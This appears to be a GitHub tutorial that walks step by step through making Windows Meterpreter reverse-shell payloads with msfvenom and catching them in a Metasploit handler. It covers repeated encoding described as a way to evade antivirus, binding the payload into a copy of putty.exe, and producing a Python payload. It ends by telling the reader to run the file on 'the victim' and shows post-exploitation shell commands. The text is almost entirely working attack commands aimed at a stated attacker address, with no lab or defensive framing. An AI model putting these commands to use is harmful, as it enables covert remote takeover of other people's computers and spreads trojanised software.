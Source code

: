 ### ⚙️ Step 1: Basic Payload Generation
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=5555 -f exe -o shell.exe
```

- Payload: Reverse TCP (Meterpreter)

- Output Format: .exe

- LHOST & LPORT: Your attack machine IP and listener port

### 🚀 Step 2: Start Metasploit Handler
```
msfconsole
```
- Inside Metasploit:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.0.112
set LPORT 5555
run
```
- Run the generated shell.exe on the victim machine to receive a Meterpreter shell.

### 🔁 Step 3: Advanced Payloads
- List Formats and Encoders
```
msfvenom --list formats
msfvenom --list encoders
```

### Example: Encoder x64/zutto_dekiru
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=5555 
-a x64 -e x64/zutto_dekiru -i 15 --platform windows -n 500 -f exe -o hello.exe
```
- -i 15: Encode 15 iterations

- -n 500: Add 500 NOPs

- Obfuscates payload to bypass AV

### 🧪 Step 4: Bind Payload to Existing EXE
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=5555 \
-x putty.exe -f exe -o PUTTY.exe
```
- -x putty.exe: Use Putty binary as a template

### 🐍 Step 5: Generate Python Payload
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=5555 -f python -o payload.py

```
- Useful for embedding in scripts or further obfuscation

### ✅ Final Step: Exploitation
- Run the malicious file on the victim.

- Keep your handler (msfconsole) running.

- Once the connection is established, Meterpreter will open:

```
meterpreter > sysinfo
meterpreter > getuid
meterpreter > shell
```